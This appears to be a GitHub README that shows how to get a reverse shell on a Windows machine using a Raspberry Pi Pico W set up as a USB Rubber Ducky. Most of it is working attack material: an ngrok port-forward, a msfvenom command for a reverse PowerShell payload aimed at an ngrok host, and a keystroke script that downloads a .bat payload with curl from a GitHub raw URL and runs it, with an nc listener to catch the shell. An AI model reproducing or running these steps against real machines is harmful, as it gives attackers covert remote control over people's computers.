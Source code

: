 # Reverse-shell-by-usb-rubber-ducky
## Introduction
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. It is a technique often used in hacking and penetration testing for remote access to a system<br><br>
The USB Rubber Ducky is a type of programmable USB device which looks like a regular USB flash drive, but it's designed to function as a keyboard emulator. When plugged into a computer, the USB Rubber Ducky can quickly type pre-programmed keystroke payloads, essentially simulating a human typing at a very fast rate.
## Payload for reverse shell
To obtain a reverse shell from a target machine, you can utilize the MSFVenom tool to generate a Windows reverse PowerShell payload. This payload will allow you to establish a connection back to your machine, giving you remote access to the target system<br><br>
For port forwarding
```ngrok tcp 8080```<br><br>
![ngrok](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok.png)<br><br>
![ngrok1](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok1.png)<br><br>
Generate windows reverse PowerShell payload<br>
```msfvenom -p cmd/windows/reverse_powershell lhost=0.tcp.in.ngrok.io lport=10448 > ayush.bat ```<br><br>
![msf](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/msf.png)
## Rasberry pi pico w as rubber ducky
1. Clone the repo to get a local copy of the files. `git clone https://github.com/dbisu/pico-ducky.git`
2. Download [CircuitPython for the Raspberry Pi Pico W](https://circuitpython.org/board/raspberry_pi_pico_w/). *Updated to 8.0.0
3. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
4. Copy the downloaded `.uf2` file to the root of the Pico (`RPI-RP2`). The device will reboot and after a second or so, it will reconnect as `CIRCUITPY`.
5. Download `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` [here](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/latest) and extract it outside the device.
6. Navigate to `lib` in the recently extracted folder and copy `adafruit_hid` to the `lib` folder on your Raspberry Pi Pico.
7. Copy `adafruit_debouncer.mpy` and `adafruit_ticks.mpy` to the `lib` folder on your Raspberry Pi Pico.
8. Copy `asyncio` to the `lib` folder on your Pico.
9. Copy `adafruit_wsgi` to the `lib` folder on your Pico.
10. Copy `boot.py` from your clone to the root of your Pico.
11. Copy `duckyinpython.py`, `code.py`, `webapp.py`, `wsgiserver.py` to the root folder of the Pico.
## Setting up an attacker server and a Ducky script
Upload the Windows reverse PowerShell payload (ayush.bat) to your server; in my case, I have uploaded it to GitHub.<br><br>
Create Ducky script and save as ```payload.dd``` on root folder of pico.
```
DELAY 3000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd OneDrive 
ENTER
DELAY 200
STRING cd Desktop
ENTER
DELAY 200
STRING curl "https://raw.githubusercontent.com/aayushdangol16/payload/main/ayush.bat" > ayush.bat
ENTER
DELAY 300
STRING ayush.bat 
ENTER

```
## Attacking
Establish a listening endpoint on port 8080 ```nc -lvnp 8080```<br><br>
![nc](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/nc.png)<br><br>
Connect the Raspberry Pi to the target machine, and the Ducky script will execute automatically, providing a reverse shell on the targeted machine.
